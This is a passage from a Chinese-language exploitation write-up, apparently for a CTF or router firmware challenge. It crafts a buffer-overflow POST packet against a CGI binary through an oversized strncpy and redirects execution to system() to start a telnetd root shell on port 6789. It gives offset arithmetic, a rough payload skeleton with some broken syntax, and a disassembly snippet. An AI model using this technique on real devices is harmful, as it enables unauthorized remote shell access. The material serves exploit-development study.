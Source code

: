 可以明显看出这里有点问题,因此我们的思路就明显很多了

- 构造出包
- 调用`system("telnetd -l /bin/sh -p 6789")`



### 0x40 构造溢出包

这里我们只需要构造`content` 发包为`post`

这里我们假设可以调试的话：我们应该先测试：`63.cgi` 根据他name的传递方式来确定我们这个包的传递方法

```
假设输入
*#$^AAAAAAAAAA
-> v9 = 0x41
-> v8 = 0x41 + 2 * 0x41
n = 0x41+4* v8 // 确定整个包的长度，因此要尽量确保他比较大
v6 = 0x41
v5 = content[8] + 2 * v6 // payload的位置,要尽量精确
v3 = &[v5-77]
```

根据这个思路我们来构造payload

这里有几个点需要注意：

- `Strncpy(dest, source, n)` 由于我们要溢出dest，因此我们要保证n要足够大（最少要大于0x300左右 > 0x2f0）
- 第二我们就要控制source 位置在去除前4个字节后的第（payload_length - 77）假设payload_lenth = 0x2fd的话就是第688个字节以后的位置开始进行复制因此我们要填补的offset就是`0x2fd - 77 - 5` 然后在加上dest的大小`0x2f0` 后面跟payload就可以了

```
length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
payload ="*#$^(length_part1)(length_part2)(length_part3)(content_length_part1)(content_length_part2)('A'*(0x2fd - 77 - 5))+('B'*0x2f4 + payload)"
n = lenth_part3 + 4 * (length_part2 + 2 * length_part1) #3315
payload_length = content_length_part2 + 2 * content_length_part1 # 0x2fd
```

包构造完了之后我们就要考虑利用的问题了，由于我们大概率只能覆盖一个地址，因此我们就要想办法把`commend` 的位置控制好，我们发现

```
.text:000109D4                 SUB     R3, R11, #-s
.text:000109D8                 MOV     R0, R3          ; command
.text:000109DC                 BL      system
```

就可以等调试看看能不能利用成功了

![image-20220311204245585](images/image-20220311204245585.png)
